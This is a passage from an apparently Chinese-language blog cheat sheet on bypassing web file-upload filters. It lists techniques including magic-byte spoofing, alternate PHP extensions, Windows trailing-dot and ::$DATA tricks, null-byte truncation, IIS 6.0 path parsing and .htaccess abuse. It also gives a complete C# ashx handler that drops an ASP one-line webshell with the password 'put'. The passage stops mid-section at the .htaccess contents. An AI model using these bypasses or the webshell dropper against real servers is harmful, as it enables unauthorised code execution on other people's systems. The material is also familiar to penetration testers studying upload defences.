 <pre class="wp-block-code"><code class="hljs">针对文件内容检测的绕过，一般有两种方式，
1.制作图片马
2.文件幻术头绕过
PNG 的文件头为十六进制的 89 50 4E 47 0D 0A 1A 0A、GIF 为 47 49 46 38 37 61、JPG 为 FF D8 FF E0
</code></pre>
<h4 id="垃圾数据填充绕过">垃圾数据填充绕过</h4>
<pre class="wp-block-code"><code class="hljs">修改HTTP请求，再之中加入大量垃圾数据。</code></pre>
<h3 id="黑名单后缀绕过">黑名单后缀绕过</h3>
<h4 id="文件扩展名绕过">文件扩展名绕过</h4>
<pre class="wp-block-code"><code class="hljs css"><span class="hljs-selector-tag">Php</span>除了可以解析<span class="hljs-selector-tag">php</span>后缀 还可以解析<span class="hljs-selector-tag">php2</span><span class="hljs-selector-class">.php3</span>，<span class="hljs-selector-tag">php4</span> 后缀</code></pre>
<h4 id="ashx上传绕过">ashx上传绕过</h4>
<pre class="wp-block-code"><code class="hljs cs">cer,asa,cdx等等无法使用时候。
解析后就会生成一个test.asp的马，你就可以连接这个test.asp  密码为:put
&lt;%@ WebHandler Language=<span class="hljs-string">"C#"</span> Class=<span class="hljs-string">"Handler"</span> %&gt;
<span class="hljs-keyword">using</span> System;
<span class="hljs-keyword">using</span> System.Web;
<span class="hljs-keyword">using</span> System.IO;
<span class="hljs-keyword">public</span> <span class="hljs-keyword">class</span> <span class="hljs-title">Handler</span> : <span class="hljs-title">IHttpHandler</span> {

    <span class="hljs-function"><span class="hljs-keyword">public</span> <span class="hljs-keyword">void</span> <span class="hljs-title">ProcessRequest</span> (<span class="hljs-params">HttpContext context</span>)</span> {
        context.Response.ContentType = <span class="hljs-string">"text/plain"</span>;

        <span class="hljs-comment">//这里会在目录下生成一个test.asp的文件</span>
        StreamWriter file1= File.CreateText(context.Server.MapPath(<span class="hljs-string">"test.asp"</span>));
        <span class="hljs-comment">//这里是写入一句话木马   密码是：ptu</span>
        file1.Write(<span class="hljs-string">"&lt;%response.clear:execute request("</span>put<span class="hljs-string">"):response.End%&gt;"</span>);
        file1.Flush();
        file1.Close();       
    }
    <span class="hljs-keyword">public</span> <span class="hljs-keyword">bool</span> IsReusable {
        <span class="hljs-keyword">get</span> {
            <span class="hljs-keyword">return</span> <span class="hljs-literal">false</span>;
        }
    }

}</code></pre>
<h4 id="特殊文件名绕过">特殊文件名绕过</h4>
<pre class="wp-block-code"><code class="hljs">比如发送的 http包里把文件名改成 test.asp. 或 test.asp_(下划线为空格)，这种命名方式
在windows系统里是不被允许的，所以需要在 burp之类里进行修改，然后绕过验证后，会
被windows系统自动去掉后面的点和空格，但要注意Unix/Linux系统没有这个特性。</code></pre>
<h4 id="windows流特性绕过">Windows流特性绕过</h4>
<pre class="wp-block-code"><code class="hljs bash">php在windows的时候如果文件名+<span class="hljs-string">"::<span class="hljs-variable">$DATA</span>"</span>会把::<span class="hljs-variable">$DATA</span>之后的数据当成文件流处理,不会检测后缀名.且保持<span class="hljs-string">"::<span class="hljs-variable">$DATA</span>"</span>之前的文件名。</code></pre>
<h3 id="白名单后缀绕过">白名单后缀绕过</h3>
<h4 id="00截断绕过上传">00截断绕过上传</h4>
<pre class="wp-block-code"><code class="hljs properties"><span class="hljs-attr">php</span> <span class="hljs-string">.jpg   空格二进制20改为00</span>
<span class="hljs-attr">IIS</span> <span class="hljs-string">6.0 目录路径检测解析绕过</span>
<span class="hljs-attr">上传路径改为</span>
<span class="hljs-attr">XXX/1.asp/</span></code></pre>
<h4 id="htaccess解析漏洞">htaccess解析漏洞</h4>
<pre class="wp-block-code"><code class="hljs properties"><span class="hljs-attr">上传的jpg文件都会以php格式解析</span>
<span class="hljs-attr">.htaccess内容：</span>